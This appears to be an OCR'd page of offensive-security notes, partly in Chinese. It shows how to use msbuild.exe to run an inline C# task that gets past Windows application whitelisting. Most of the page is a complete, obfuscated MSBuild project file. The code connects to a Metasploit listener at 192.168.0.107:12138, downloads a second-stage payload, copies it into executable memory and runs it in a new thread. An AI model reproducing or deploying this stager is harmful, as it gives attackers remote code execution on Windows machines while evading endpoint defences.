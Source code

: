 	https://gitee.com/RichChigga/msbuild-exec
	MSF监听
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe 1.xml
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="iJEKHyTEjyCU">
<xUokfh />
</Target>
<UsingTask
TaskName="xUokfh"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
<Task>
<Code Type="Class" Language="cs">
<![CDATA[
using System; using System.Net; using System.Net.Sockets; using System.Linq; using System.Runtime.InteropServices;
using System.Threading; using Microsoft.Build.Framework; using Microsoft.Build.Utilities;
public class xUokfh : Task, ITask {
[DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 ogephG,UInt32 fZZrvQ, UInt32 nDfrBaiPvDyeP, UInt32 LWITkrW);
[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 qEVoJxknom, UInt32 gZyJBJWYQsnXkWe, UInt32 jyIPELfKQYEVZM,IntPtr adztSLHGJiurGO, UInt32 vjSCprCJ, ref UInt32 KbPukprMQXUp);
[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr wVCIQGmqjONiM, UInt32 DFgVrE);
static byte[] VYcZlUehuq(string IJBRrBqhigjGAx, int XBUCexXIrGIEpe) {
IPEndPoint DRHsPzS = new IPEndPoint(IPAddress.Parse(IJBRrBqhigjGAx),XBUCexXIrGIEpe);
Socket zCoDOd = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
try { zCoDOd.Connect(DRHsPzS); }
catch { return null;}
byte[] OCrGofbbWRVsFEl = new byte[4];
zCoDOd.Receive(OCrGofbbWRVsFEl, 4, 0);
int auQJTjyxYw = BitConverter.ToInt32(OCrGofbbWRVsFEl, 0);
byte[] MlhacMDOKUAfvMX = new byte[auQJTjyxYw + 5];
int GFtbdD = 0;
while (GFtbdD < auQJTjyxYw)
{ GFtbdD += zCoDOd.Receive(MlhacMDOKUAfvMX, GFtbdD + 5, (auQJTjyxYw -GFtbdD) < 4096 ? (auQJTjyxYw - GFtbdD) : 4096, 0);}
byte[] YqBRpsmDUT = BitConverter.GetBytes((int)zCoDOd.Handle);
Array.Copy(YqBRpsmDUT, 0, MlhacMDOKUAfvMX, 1, 4); MlhacMDOKUAfvMX[0]= 0xBF;
return MlhacMDOKUAfvMX;}
static void NkoqFHncrcX(byte[] qLAvbAtan) {
if (qLAvbAtan != null) {
UInt32 jrYMBRkOAnqTqx = VirtualAlloc(0, (UInt32)qLAvbAtan.Length, 0x1000, 0x40);
Marshal.Copy(qLAvbAtan, 0, (IntPtr)(jrYMBRkOAnqTqx),qLAvbAtan.Length);
IntPtr WCUZoviZi = IntPtr.Zero;
UInt32 JhtJOypMKo = 0;
IntPtr UxebOmhhPw = IntPtr.Zero;
WCUZoviZi = CreateThread(0, 0, jrYMBRkOAnqTqx, UxebOmhhPw, 0, ref JhtJOypMKo);
WaitForSingleObject(WCUZoviZi, 0xFFFFFFFF); }}
public override bool Execute()
{
byte[] uABVbNXmhr = null; uABVbNXmhr = VYcZlUehuq("192.168.0.107",12138);
NkoqFHncrcX(uABVbNXmhr);
return true; } }
]]>
</Code>
</Task>
</UsingTask>
</Project>

```
  #### Winrm
	MSF监听